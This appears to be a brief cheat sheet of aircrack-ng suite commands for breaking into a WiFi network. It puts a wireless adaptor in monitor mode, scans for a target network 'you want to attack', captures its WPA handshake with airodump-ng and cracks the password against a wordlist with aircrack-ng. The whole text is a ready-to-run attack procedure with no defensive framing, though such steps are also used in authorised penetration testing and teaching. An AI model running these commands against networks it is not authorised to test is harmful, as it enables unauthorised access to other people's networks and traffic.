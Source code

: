 # lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1:
    iwconfig
# Change adaptor into monitor mode:
    airmon-ng start wlan1
# See the new adaptor:
    iwconfig
# Search for all wifi available for you to attack and mark the channel and mac address of the wifi you want to attack:
    airodump-ng wlan1mon 
# Capture wpa handshake: (EAPOL)
    airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
# Crack the password:
    aircrack-ng output-above.cap -w wordlist.txt
